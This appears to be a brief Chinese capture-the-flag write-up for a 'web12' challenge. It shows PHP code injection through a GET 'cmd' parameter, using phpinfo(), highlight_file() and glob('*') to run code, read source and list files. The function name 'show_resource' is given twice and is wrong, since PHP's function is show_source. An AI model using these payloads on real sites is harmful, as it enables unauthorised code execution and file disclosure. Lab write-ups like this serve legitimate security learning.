





# web12
先查看网页源码,发现提示

让我们get提交cmd变量,先蒙一下命令执行cmd=phpinfo();

证实了想法,但可能有过滤
用show_resource('index.php')或是highlight_file()查看源代码

发现没有过滤,但是需注意将信息显示出来
用glob()函数,glob("*")查找所有文件名
var_dump(glob("*"));

print_r(glob("\*"));
show_resource('filename')或是highlight_file('filename')
